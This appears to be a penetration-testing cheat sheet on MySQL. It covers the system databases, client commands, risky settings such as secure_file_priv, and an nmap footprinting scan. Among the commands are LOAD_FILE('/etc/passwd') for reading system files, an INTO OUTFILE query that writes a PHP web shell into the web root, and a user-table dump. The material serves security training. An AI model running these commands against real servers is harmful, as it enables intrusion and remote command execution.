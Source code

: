 # MySQL

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**MySQL**</mark> is an open-source SQL <mark style="color:purple;">**relational database**</mark> management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. Default MySQL port is <mark style="color:yellow;">**3306**</mark>. The most important databases fot the MySQL are the <mark style="color:green;">**`system schema (sys)`**</mark> and <mark style="color:green;">**`information schema (information_schema)`**</mark>. The **system schema** contaions tables, information, and metadata necessary for management. The **information schema** contains metadata which mainly retrieved from the system **schema database**.

## <mark style="color:yellow;">Databases</mark>

**MySQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                                   | Description                                                           |
| ---------------------------------------------------------- | --------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql`**</mark>              | Contains tables with required info for the server                     |
| <mark style="color:green;">**`information_schema`**</mark> | Database metadata                                                     |
| <mark style="color:green;">**`performance_schema`**</mark> | Low level monitoring MySQL Server execution                           |
| <mark style="color:green;">**`sys`**</mark>                | Objects that helps devs to use data from performance\_schema database |

## <mark style="color:yellow;">MySQL Useful Commands</mark>

| Command                                                                                                                                                                                                 | Description                                                                                           |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql -u <user> -p<password> -h <IP address>`**</mark>                                                                                                                    | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| <mark style="color:green;">**`show databases;`**</mark>                                                                                                                                                 | Show all databases                                                                                    |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                                                                 | Select one of the existing databases                                                                  |
| <mark style="color:green;">**`show tables;`**</mark>                                                                                                                                                    | Show all available tables in the selected database                                                    |
| <mark style="color:green;">**`show columns from <table>;`**</mark>                                                                                                                                      | Show all columns in the selected database                                                             |
| <mark style="color:green;">**`select * from <table>;`**</mark>                                                                                                                                          | Show everything in the desired table                                                                  |
| <mark style="color:green;">**`select * from <table> where <column> = "<string>";`**</mark>                                                                                                              | Search for needed `string` in the desired table                                                       |
| <mark style="color:green;">**`select LOAD_FILE("/etc/passwd");`**</mark>                                                                                                                                | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                             |
| <pre class="language-bash"><code class="lang-bash">SELECT "&#x3C;?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
</code></pre>                                          | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Writing local files                             |
| <pre class="language-bash"><code class="lang-bash">mysql.exe -u 'mysql_user' -p "password123" -h 127.0.0.1 -D ARASAKA_DB -e "SELECT * FROM users;" > C:\arasaka.htb\static\users_dump.txt
</code></pre> | Extract all users from database                                                                       |

## <mark style="color:yellow;">CMD Interacting</mark>

#### Linux

```bash
mysql -u carni17 -psuperkek123 -h 13.13.13.13
```

#### Windows

```bash
mysql.exe -u carni17 -psuperkek123 -h 13.13.13.13
```

## <mark style="color:yellow;">Dangerous Settings</mark>

#### **Config File Location**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

* <mark style="color:green;">**`user`**</mark> - Sets which user the MySQL service will run as
* <mark style="color:green;">**`password`**</mark> - Sets the password for the MySQL user
* <mark style="color:green;">**`admin_address`**</mark> - The IP address on which to listen for TCP/IP connections on the administrative network interface
* <mark style="color:green;">**`debug`**</mark> - This variable indicates the current debugging settings
* <mark style="color:green;">**`sql_warnings`**</mark> - This variable controls whether single-row INSERT statements produce an information string if warnings occur
* <mark style="color:green;">**`secure_file_priv`**</mark> - This variable is used to limit the effect of data import and export operations. If empty - variable have no effect. If NULL - server disables import/export. If directory - import/export is limited to directory.

#### Show variable

```sql
show variables like "secure_file_priv";
```

## <mark style="color:yellow;">Tips2Hack</mark>

1. Nmap Basic Footprinting

```bash
sudo nmap 13.13.13.13 -sV -sC -p3306 --script mysql*
```

***
